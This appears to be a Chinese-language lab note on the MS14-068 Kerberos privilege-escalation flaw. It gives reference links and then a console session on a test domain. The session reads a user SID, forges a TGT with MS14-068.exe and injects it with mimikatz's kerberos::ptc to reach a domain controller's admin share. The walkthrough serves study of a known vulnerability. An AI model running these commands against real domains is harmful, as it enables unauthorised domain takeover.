 

- [MS14-068域权限提升漏洞总结 ---- mottoin](http://www.mottoin.com/95877.html)
- [ms14-068域提权](http://blog.csdn.net/zy_strive_2012/article/details/51698189)
- [ms14-068（CVE-2014-6324）漏洞实战](https://www.52os.net/articles/ms14-068-CVE-2014-6324-howto.html)
- [内网渗透中的mimikatz ---- 乌云知识库](http://drops.ichenfei.com/tips-7547.html)
mmp

windowxp 没有whoami命令,查看不了sid,换win2003

```
C:\Documents and Settings\hhf>whoami /user

用户信息
----------------

用户名       SID
============ ============================================
ichenfei\hhf S-1-5-21-659146553-3959139527-226792945-1107

C:\Documents and Settings\hhf>dir \\WIN-8635GE1PTIB.ichenfei.com\c$
拒绝访问。


C:\Documents and Settings\hhf>MS14-068.exe -u hhf@ichenfei.com -s S-1-5-21-659146553-3959139527-226792945-1107 -d WIN-8635GE1PTIB.ichenfei.com
Password:
  [+] Building AS-REQ for WIN-8635GE1PTIB.ichenfei.com... Done!
  [+] Sending AS-REQ to WIN-8635GE1PTIB.ichenfei.com... Done!
  [+] Receiving AS-REP from WIN-8635GE1PTIB.ichenfei.com... Done!
  [+] Parsing AS-REP from WIN-8635GE1PTIB.ichenfei.com... Done!
  [+] Building TGS-REQ for WIN-8635GE1PTIB.ichenfei.com... Done!
  [+] Sending TGS-REQ to WIN-8635GE1PTIB.ichenfei.com... Done!
  [+] Receiving TGS-REP from WIN-8635GE1PTIB.ichenfei.com... Done!
  [+] Parsing TGS-REP from WIN-8635GE1PTIB.ichenfei.com... Done!
  [+] Creating ccache file 'TGT_hhf@ichenfei.com.ccache'... Done!


mimikatz.exe "kerberos::ptc TGT_hhf@ichenfei.com.ccache" exit
```